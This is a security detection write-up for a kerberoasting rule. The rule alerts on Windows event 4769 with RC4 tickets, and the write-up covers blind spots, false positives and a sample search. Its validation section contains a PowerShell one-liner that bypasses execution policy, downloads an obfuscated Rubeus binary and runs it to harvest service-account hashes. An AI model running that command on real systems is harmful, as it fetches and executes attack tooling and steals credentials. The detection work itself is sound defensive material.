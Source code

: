 # Detection Name

* Recommended rule name - kerberoasting_abuse.yaral
* Reference - **a9b2005b-99cb-48ed-b0a5-d56579fcd9ee**

# Goal
Detect attempts by a threat actor to enumerate SPN's and harvest weak passwords from service accounts via kerberoasting.

# Categorization
These attempts are categorized as [Credential Access / Steal or Forge Kerberos Tickets / Kerberoasting](https://attack.mitre.org/techniques/T1558/003/).

The data source is [Active Directory](https://attack.mitre.org/datasources/DS0026/).

# Detection Functionality
The detection will work as follows:

* Record Windows Event logs
* Look for Windows EventID 4769
* Identify where the Encryption Type is 0x17
* Suppress known-good service accounts
  * Accounts ending with $
  * Known source users that run tools that enumerate SPN's
* Fire alert when the above conditions are met

# Blind Spots and Assumptions

This strategy relies on the following assumptions: 
* Windows Event Logs are logging properly without missing telemetry
* Logs are flowing to the SIEM in a reasonable timeframe
* SIEM is parsing the fields properly to map the detection logic

A blind spot will occur if any of the assumptions are violated. For instance, the following would not trip the alert: 
* Other Encryption Types (such as 0x12) being hit instead of 0x17 (RC4)
* SPN's are cached and the alert doesn't fire due to cached responses

# False Positives
There are several instances where false positives for this ADS could occur:

* Users explicitly performing SPN enumeration as part of SQL jobs
* Automated internal red-team testing

Most false positives can be tracked back to DBA's running scripts that enumerate SPN's and red team activity.

# Validation
Validation can occur by utilize Rubeus.exe to enumerate SPN's and harvest weak RC4 hashes.
```
%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Set-ExecutionPolicy Bypass -scope Process -Force; %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri "https://github.com/Flangvik/ObfuscatedSharpCollection/raw/main/NetFramework_4.7_Any/Rubeus.exe._obf.exe" -OutFile "C:\ProgramData\Rubeus.exe"; C:\Windows\System32\cmd.exe /C C:\ProgramData\Rubeus.exe kerberoast
```
# Relevance
Although many environments no longer have weak RC4 hashes to easily get roasted, it is still a good detection to have to cover this attack vector. It is one of the easiest ways to compromise an elevated privileged account and allow an attacker to pivot to domain compromise.

# Priority
If this detection can be tuned properly, the severity should be a Critical with a 100 risk score.

# Search Example
This is a base UDM search to start with, finer tuning is required to move this into a detection and hone in the proper encryption types.
```
metadata.vendor_name = "Microsoft" AND metadata.product_event_type = "4769" AND principal.hostname = "win-dc.hack.domain" 
(target.resource.name = "0x40800000" OR target.resource.name = "0x40810000")
(target.resource.resource_subtype = "0x12" OR target.resource.resource_subtype = "0x17")
```